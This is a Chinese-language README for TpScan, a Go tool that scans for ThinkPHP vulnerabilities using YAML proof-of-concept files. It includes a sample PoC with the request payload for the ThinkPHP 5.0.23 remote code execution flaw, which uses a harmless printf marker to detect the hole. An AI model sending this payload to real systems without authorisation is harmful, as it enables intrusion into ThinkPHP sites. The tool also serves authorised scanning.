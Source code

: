 ![TpScan](https://socialify.git.ci/captain686/TpScan/image?font=Raleway&forks=1&issues=1&language=1&name=1&owner=1&pattern=Circuit%20Board&stargazers=1&theme=Light)

## ☃️What

使用`golang`编写的ThinkPHP扫描器，`POC`采用`ymal`文件加载

## 🤪How

- 单个`URL`测试

```bash
./TpScan.exe -u http://node4.buuoj.cn:26433/
```

- 批量`URL`测试

```bash
./TpScan.exe -f test.txt
```

## 🤑About

- `Ymal`文件格式

  ```yaml
  name: 5.0.23-Rce
  rules:
    r1:
      request:
        method: POST
        headers:
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        path: /index.php?s=captcha
        body: _method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=randomStr
      expression:
  #      result: and
  #      response_status: 404
        inResponse: |
          randomStr
  
    r2:
      request:
  #支持POST和GET    
        method: POST
        headers:
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        path: _method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=randomStr
        FollowRedirects: true
  #允许302跳转，默认为true
      expression:
  # r2验证结果为 response_status == 404 && inResponse(randomStr)
        result: and
  #      result: or
        response_status: 404
        inResponse: |
          randomStr
  #randomStr为占位符，会被自动替换为10位随机字符
  
  expression:
    r1 || r2
  #  r1 && r2
  #支持逻辑运算
  
  
  # 信息部分
  detail:
    author: Captain686
    links:
      - https://github.com/captain686
  ```
  
  
  
  在`Xray`的`poc`格式基础上进行部分修改
  
  `Poc`文件存放在`User_Exploit`目录下

## 😎ToDo

- [ ] 后续更新`Poc`文件
